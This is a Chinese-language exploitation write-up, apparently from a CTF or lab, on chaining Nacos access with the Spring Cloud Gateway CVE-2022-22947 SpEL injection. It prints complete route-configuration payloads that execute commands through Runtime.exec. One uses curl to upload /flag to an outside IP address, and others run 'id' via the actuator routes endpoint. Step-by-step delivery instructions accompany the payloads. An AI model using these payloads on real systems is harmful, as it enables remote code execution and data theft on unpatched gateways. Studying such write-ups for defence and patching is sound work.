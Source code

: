 Spring Cloud Gateway曾出现CVE-2022-22947漏洞，该漏洞允许攻击者通过动态配置路由，执行SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。但实际情况可能有很多Spring Cloud Gateway存在漏洞，但未开放Actuator API，所以导致无法利用。但如果在资产收集时发现目标存在nacos，并且可用弱口令或者未授权漏洞创建用户登录进去的话，我们可以采用Nacos的动态配置特性结合Spring Cloud Gateway的RCE漏洞进行利用。
参考文章：<https://xz.aliyun.com/t/11493?time__1311=Cq0xRDnD070Q%3DGNPeeuAxfE1x9AB%3DDg7WoD>

利用nacos漏洞进入后台后，发现gateway配置文档，修改发布，进行spel注入命令执行。下面是json格式。
这里是给了个的jar，反编译查看到了基础的配置，根据配置添加nacos中配置文档，并发布。
![](.topwrite/assets/image_1735374395624.png)
![](.topwrite/assets/image_1735375328478.png)
![](.topwrite/assets/image_1735375352614.png)
```
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [
                    {
                        "id": "whocansee",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/echo/**"
                        ],
                        "filters": [
                            {
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'curl','http://47.113.202.32:23233','-T','/flag'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```
predicates是路由匹配规则，uri是转发的地址，这里是backendservice服务名

此时访问/echo/11触发，查看响应头有命令回显结果。





^
^
## **CVE-2022-22947漏洞回顾**

该漏洞在网上公开POC的利用方式是通过`/actuator/gateway/routes`这个节点进行动态添加路由的，当项目配置文件中配置了以下两行配置时（YAML格式），便会开启该接口：

```
management.endpoint.gateway.enabled: true
management.endpoints.web.exposure.include: gateway
```

其中发送的添加路由的数据包中的数据段如下：

```
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

我们可以先理解一下这段POC的含义，其中id字段代表的是路由的ID标识，而filters则是Spring Cloud Gateway中路由配置的过滤器，这里指定了过滤器`AddResponseHeader`，含义为对匹配到的请求的响应包中添加一个自定义的Header，其中名称为 Result，值为该漏洞利用的SpEL表达式，执行了命令`id`，也就是说当一个请求匹配到该路由时，返回包中应该会存在一个Header返回了我们定义的键值，利用成功的话会得到：`result: uid=0(root) gid=0（省略...）`

但POC中并未定义路由的匹配规则，因为开启actuator/gateway的话只需要刷新一下路由然后直接查看路由配置就可以得到命令执行的回显了。为了验证，我修改了一下POC，将其添加一条路由规则如下：

```
{
    "id": "aaa",
    "order": 0,
    "predicates": [
      {
        "args": {
          "_genkey_0": "/test/**"
        },
        "name": "Path"
      }
    ],"filters": [
{
    "name": "AddResponseHeader",
    "args": {
"name":"result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream())).replaceAll(\"\n\",\"\").replaceAll(\"\r\",\"\")}"}
  }],
    "uri": "http://example.com"
  }
```

发包添加成功：\
![](.topwrite/assets/image_1735375141726.png)

这条路由的含义就是增加了`predicates`来匹配请求的访问路径，当请求访问的路径匹配到了`/test/**`时，则触发该路由，然后再看到filters，跟之前的POC是一样的，最后再注意到`uri`参数，它的作用是当路由匹配到`/test/**`时，将其转发到`http://example.com`上，但注意这是个公网地址，在真实环境利用时应考虑到如果服务器不出网则可能造成路由转发失败。所以当我们访问了 [http://localhost:8080/test/时，路由会帮我们转发到。

接下来刷新一下路由，然后尝试访问一下/test路径看下效果：\
![](.topwrite/assets/image_1735375124789.png)

成功在响应包的头部增加了result字段，且值为我们希望的命令执行的结果。


